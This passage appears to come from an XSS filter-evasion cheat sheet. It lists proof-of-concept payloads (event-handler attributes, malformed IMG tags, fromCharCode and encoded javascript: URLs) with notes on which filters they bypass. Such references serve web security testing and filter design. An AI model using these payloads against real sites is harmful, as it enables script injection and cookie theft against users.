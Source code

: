 &lt;a onmouseover="alert(document.cookie)"&gt;xxs link&lt;/a&gt;

or Chrome loves to replace missing quotes for you... if you ever get stuck just leave them off and Chrome will put them in the right place and fix your missing quotes on a URL or script.

&lt;a onmouseover=alert(document.cookie)&gt;xxs link&lt;/a&gt;
<h2><span id="Malformed_IMG_tags" class="mw-headline">Malformed IMG tags</span></h2>
Originally found by Begeek (but cleaned up and shortened to work in all browsers), this XSS vector uses the relaxed rendering engine to create our XSS vector within an IMG tag that should be encapsulated within quotes. I assume this was originally meant to correct sloppy coding. This would make it significantly more difficult to correctly parse apart an HTML tag:
<pre>&lt;IMG """&gt;&lt;SCRIPT&gt;alert("XSS")&lt;/SCRIPT&gt;"&gt;
</pre>
<h2><span id="fromCharCode" class="mw-headline">fromCharCode</span></h2>
If no quotes of any kind are allowed you can eval() a fromCharCode in JavaScript to create any XSS vector you need:
<pre>&lt;IMG SRC=javascript:alert(String.fromCharCode(88,83,83))&gt;
</pre>
<h2><span id="Default_SRC_tag_to_get_past_filters_that_check_SRC_domain" class="mw-headline">Default SRC tag to get past filters that check SRC domain</span></h2>
This will bypass most SRC domain filters. Inserting javascript in an event method will also apply to any HTML tag type injection that uses elements like Form, Iframe, Input, Embed etc. It will also allow any relevant event for the tag type to be substituted like onblur, onclick giving you an extensive amount of variations for many injections listed here. Submitted by David Cross .

Edited by Abdullah Hussam(@Abdulahhusam).
<pre>&lt;IMG SRC=# onmouseover="alert('xxs')"&gt;
</pre>
<h2><span id="Default_SRC_tag_by_leaving_it_empty" class="mw-headline">Default SRC tag by leaving it empty</span></h2>
<pre>&lt;IMG SRC= onmouseover="alert('xxs')"&gt;
</pre>
<h2><span id="Default_SRC_tag_by_leaving_it_out_entirely" class="mw-headline">Default SRC tag by leaving it out entirely</span></h2>
<pre>&lt;IMG onmouseover="alert('xxs')"&gt;
</pre>
<h2><span id="On_error_alert" class="mw-headline">On error alert</span></h2>
<pre>&lt;IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"&gt;&lt;/img&gt;
</pre>
<h2><span id="IMG_onerror_and_javascript_alert_encode" class="mw-headline">IMG onerror and javascript alert encode</span></h2>
<pre>&lt;img src=x onerror="&amp;#0000106&amp;#0000097&amp;#0000118&amp;#0000097&amp;#0000115&amp;#0000099&amp;#0000114&amp;#0000105&amp;#0000112&amp;#0000116&amp;#0000058&amp;#0000097&amp;#0000108&amp;#0000101&amp;#0000114&amp;#0000116&amp;#0000040&amp;#0000039&amp;#0000088&amp;#0000083&amp;#0000083&amp;#0000039&amp;#0000041"&gt;
</pre>
<h2><span id="Decimal_HTML_character_references" class="mw-headline">Decimal HTML character references</span></h2>
all of the XSS examples that use a javascript: directive inside of an &lt;IMG tag will not work in Firefox or Netscape 8.1+ in the Gecko rendering engine mode).
<pre>&lt;IMG SRC=&amp;#106;&amp;#97;&amp;#118;&amp;#97;&amp;#115;&amp;#99;&amp;#114;&amp;#105;&amp;#112;&amp;#116;&amp;#58;&amp;#97;&amp;#108;&amp;#101;&amp;#114;&amp;#116;&amp;#40;
&amp;#39;&amp;#88;&amp;#83;&amp;#83;&amp;#39;&amp;#41;&gt;
</pre>
<h2><span id="Decimal_HTML_character_references_without_trailing_semicolons" class="mw-headline">Decimal HTML character references without trailing semicolons</span></h2>
This is often effective in XSS that attempts to look for "&amp;#XX;", since most people don't know about padding - up to 7 numeric characters total. This is also useful against people who decode against strings like $tmp_string =~ s/.*\&amp;#(\d+);.*/$1/; which incorrectly assumes a semicolon is required to terminate a html encoded string (I've seen this in the wild):
<pre>&lt;IMG SRC=&amp;#0000106&amp;#0000097&amp;#0000118&amp;#0000097&amp;#0000115&amp;#0000099&amp;#0000114&amp;#0000105&amp;#0000112&amp;#0000116&amp;#0000058&amp;#0000097&amp;
#0000108&amp;#0000101&amp;#0000114&amp;#0000116&amp;#0000040&amp;#0000039&amp;#0000088&amp;#0000083&amp;#0000083&amp;#0000039&amp;#0000041&gt;
</pre>